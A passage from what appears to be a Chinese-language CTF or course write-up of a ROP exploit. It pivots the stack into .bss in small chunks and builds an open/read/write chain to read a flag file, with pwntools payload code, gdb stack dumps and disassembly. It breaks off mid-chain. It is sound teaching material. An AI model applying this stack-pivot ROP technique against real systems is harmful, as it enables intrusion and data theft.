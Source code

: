        0x44828a <read+26>:  ret
    ```
    會這樣的原因是我們在ROPgadget中找不到`syscall ; ret`的gadget，所以助教提示可以直接從read / write這種function找，這樣syscall完了之後會很快的接到ret，這樣中間的操作才不會太影響我們蓋的rop
3. Construct ROP
    首先，我們的流程是
    ==main_fn → bss_open → main_fn → bss_open → main_fn → bss_write==
    會這樣的原因是我們只能寫入0x60的空間而已，所以把open / read / write分開寫，而寫完且執行完後會再跳原main_fn，這樣才能讓我們再讀取下一段的ROP payload
    0. 寫入的bss_addr和main_fn address
        ```python
        bss_addr_open = 0x4c2700
        bss_addr_read = 0x4c2800
        bss_addr_write = 0x4c2900
        main_fn = 0x401ce1
        ```
    1. 先讓rbp跳到bss_open，然後ret到main_fn，接要放到bss_open的payload
        ```python
        trash_payload = b'a'*0x20
        r.sendline(trash_payload + p64(bss_addr_open) + p64(main_fn))
        ```
        之前的rop chain我們會把RBP一起蓋掉，但現在因為要跳到其他的地方，所以rbp的部分就跳到`0x4c2700`，然後ret address接main_fn
        用gdb跟一下，放完的結果大概是這樣
        ```bash
        0x00007ffc884f3670│+0x0000: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"   ← $rsp, $rsi
        0x00007ffc884f3678│+0x0008: "aaaaaaaaaaaaaaaaaaaaaaaa"
        0x00007ffc884f3680│+0x0010: "aaaaaaaaaaaaaaaa"
        0x00007ffc884f3688│+0x0018: "aaaaaaaa"
        0x00007ffc884f3690│+0x0020: 0x00000000004c2700  →  <transmem_list+0> add BYTE PTR [rax], al      ← $rbp
        0x00007ffc884f3698│+0x0028: 0x0000000000401ce1  →  <main+12> lea rax, [rbp-0x20]
        ```
        當main_fn執行完leave(`mov rsp , rbp ; pop rbp ;`)的時候，rbp就會指到==0x4c2700==，當我們ret到main_fn時，就可以再次輸入payload放到0x4c2700
    2. 觀察main_fn的assembly
        ```bash
        gef➤  x/10i &main
           0x401cd5 <main>:     endbr64
           0x401cd9 <main+4>:   push   rbp
           0x401cda <main+5>:   mov    rbp,rsp
           0x401cdd <main+8>:   sub    rsp,0x20
           0x401ce1 <main+12>:  lea    rax,[rbp-0x20]
           0x401ce5 <main+16>:  mov    edx,0x80
           0x401cea <main+21>:  mov    rsi,rax
           0x401ced <main+24>:  mov    edi,0x0
           0x401cf2 <main+29>:  call   0x448270 <read>
           0x401cf7 <main+34>:  mov    eax,0x0
        ```
        從以上的code可以看得出來，我們是跳到0x401ce1，所以rbp會張出0x20的空間，也就是==0x4c2700-0x20=0x4c26e0==，然後read到的內容就會放到這邊來
    3. 寫入bss_addr_open
        我們的目標是達成==fd = open("/home/chal/flag.txt", 0);==，具體payload如下
        ```python
        file_addr = b'/home/chal/flag.txt'.ljust(0x20, b'\x00')
        ROP_open = flat(
            # Open file
            # fd = open("/home/chal/flag.txt", 0);
            bss_addr_read,
            pop_rax_ret,    2,
            pop_rdi_ret,    bss_addr_open - 0x20,
            pop_rsi_ret,    0,
            pop_rdx_ret,    0,